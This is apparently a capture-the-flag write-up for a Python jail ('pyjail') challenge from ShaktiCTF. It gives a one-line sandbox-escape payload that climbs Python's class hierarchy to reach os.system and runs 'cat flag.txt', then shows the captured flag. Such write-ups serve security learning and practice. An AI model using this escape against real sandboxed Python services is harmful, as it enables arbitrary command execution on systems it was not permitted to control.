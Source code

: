 Title: level1

Description:
```
Solve the level1 challenge of the pyjail series

Note: The server is running on Ubuntu 20.04
```

Refer to the first [challenge](https://github.com/Coder-Here/ShaktiCTF/blob/main/Misc/level0/README.md), the payload works from there, but without the print function.

```
print([].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt'))

the above does not work, try the below one without the print function

[].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt')
```

![image](https://user-images.githubusercontent.com/63996033/206860336-27f7486c-8115-41c1-bfd1-6d8bfb0b796e.png)

Flag: shakti{7h47_W45_4_Cl053_C4ll!!!}


What is ```Word of advice,remember this:weYbdk9012ghiwh=0?``` for ?????
